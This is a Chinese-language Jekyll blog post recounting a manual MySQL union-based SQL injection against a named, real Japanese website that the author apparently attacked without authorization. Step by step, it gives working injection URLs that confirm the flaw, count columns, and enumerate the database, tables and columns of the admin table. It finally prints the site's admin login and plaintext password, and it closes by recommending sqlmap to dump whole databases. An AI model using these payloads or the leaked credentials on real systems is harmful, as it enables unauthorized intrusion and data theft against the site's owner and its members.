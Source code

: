 ```yaml
---
layout: post
title: MYSQL手工注入某日本网站
description: 手工注入MYSQL注入笔记 
keywords: MYSQL,数据库,注入,sql,SQL Injection,网络安全
category: 脚本小子
---
```


经过一天的辛苦劳动下班了，实在无聊，QQ上的基友基本都挂机睡觉了。找点乐子打发时间，看了一下2013年OWASP Top Ten Project， Injection排在第一。去了解注入，还是有必要的。
随便google了几个日本网站，发现不少都在注入点，有很多用手工都比较鸡肋，终于找到了一个比较满意的。

# 0X01 判断是否为注入点 

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162’ 
{% endhighlight %}

报错，显示MDB2 Error: syntax error

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=1 
{% endhighlight %}

显示正常

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=2 
{% endhighlight %}

显示异常,判断是注入点 

# 0X02 判断数据库类型

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+user>0 
{% endhighlight %}

报错，显示MDB2 Error: no such field

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+version()>0 
{% endhighlight %}

显示正常,判定是MYSQL数据库

# 0x03 猜解当前网页的字段数

采用二分法，逐渐猜解。

 {% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+order+by+9
{% endhighlight %}
 
错误！超链接引用无效。+order+by+10
Order by 9显示正常 ；order 10 显示不正常。说明字段数为9

# 0x04 爆出显示位

 {% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=2+union
+select+1,2,3,4,5,6,7,8,9 --
{% endhighlight %}
	 
显示位为2和3
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。URL后面添加 and+1=2 显示有报错信息，URL后面添加 select+1,2,3,4,5,6,7,8,9  显示正常的网页，使用UNION操作符将后者的显示信息覆盖掉前面报错的信息，这样就能清楚看到显示位了。

0x04 爆出数据库基本信息

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=2+union
+select+1,concat(user(),0x20,database(),0x20,version()),3,4,5,6,7,8,9 --
{% endhighlight %}
 
用户：henecia@localhost ，数据库名：henecia，数据库版本：5.1.56

>可以在显位的位置插入的预设函数；
User() 查看用户  
database()  --查看数据库名称     
Version() --查看数据库版本   
@@datadir --数据库路径
@@version_compile_os --操作系统版本    
system_user() --系统用户名  
current_user() --当前用户名   
session_user()--连接数据库的用户名

为了显示信息更方便，这里在构造sql查询语句中使用了concat函数，它连接一个或者多个字符串, 有任何一个参数为NULL ，则返回值为 NULL。还有group_concat()和concat_ws(),这些函数的功能不清楚，有必要去了解一下，这里我就不多说了。

# 0x05 爆出数据库名

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=2+union
+select+1,group_concat(distinct+table_schema),3,4,5,6,7,8,9+
from+information_schema.columns --  
{% endhighlight %}

爆出数据库名：information_schema,henecia

>information_schema数据库是在MYSQL的版本5.0之后产生的，一个虚拟数据库，物理上并不存在。nformation_schema数据库类似与“数据字典”，提供了访问数据库元数据的方式，即数据的数据。比如数据库名或表名，列类型，访问权限（更加细化的访问方式）。information_schema是一个由数据库的元数据组成的数据库。里面存储的是MYSQL的数据库基本信息。并随时改变。用于查看信息以及系统决策时作为重要的信息提供者。

MYSQL的版本5.0以上版本，我们借助information_schema数据库，来获取其他数据库的信息。用到了group_concat()函数，distinct参数起到了去掉重复显示的作用。

# 0x06 爆出当前数据库的表名

{% highlight sql %}
 http://henecia.jp/news/detail.php?nid=162+and+1=2+union
 +select+1,group_concat(distinct+table_name),3,4,5,6,7,8,9
 +from+information_schema.tables
 +where+table_schema=database() --
{% endhighlight %}

显示的表名：

>TM_ADMIN_MEMBER，TM_BANNER_MASTER，TM_BBS1_CATEGORY，TM_BBS1_COMMENT，TM_BLOG1_CATEGORY，TM_BLOG1_COMMENT，TM_BLOG1_MASTER，TM_EVENT_ORDER，TM_GOODSNEWS_MASTER，TM_MEMBER_MASTER，TM_MEMBER_MASTER2，TM_NEWS_MASTER，TM_PASS_MASTER，TM_PAYMENT_TRANS_HISTORY，TM_SCHEDULE_CATEGORY，TM_SCHEDULE_MASTER，TM_SITEID，T_RESEND_MEMBER，T_RESEND_MEMBER_CARDFIN，T_RESEND_。

如果数据库表比较多，一般都使用使用limit n,1插到末尾，逐次爆出的数据(n为显示第n个)。

# 0x07 爆出表中的字段

{% highlight sql %}	
http://henecia.jp/news/detail.php?nid=162+and+1=2+union
+select+1,group_concat(distinct+column_name),3,4,5,6,7,8,9
+from+information_schema.columns
+where+table_name=0x544D5F41444D494E5F4D454D424552 --
{% endhighlight %}
	 
给table_name赋的值为TM_ADMIN_MEMBER的HEX（16进制）。

# 0x08 爆出数据库表的数据

{% highlight sql %}
http://henecia.jp/news/detail.php?nid=162+and+1=2+union
+select+1,group_concat(admin_id,0x2B,login_uid,0x2B,login_pwd),3,4,
5,6,7,8,9+from+TM_ADMIN_MEMBER --
{% endhighlight %}

爆出admin_id为1，login_uid为admin，login_pwd为osuktm12

# 结尾

本次sql手工注入草草结束，主要目的是了解mysql数据的结构，还有SQL查询语句的语法。再推崇一篇文章:[血腥！实况转播SQL注入全过程，让你知道危害有多大。](http://www.cnblogs.com/hkncd/archive/2012/03/31/2426274.html)玩渗透的，建议你使用神器sqlmap，直接可以脱裤。

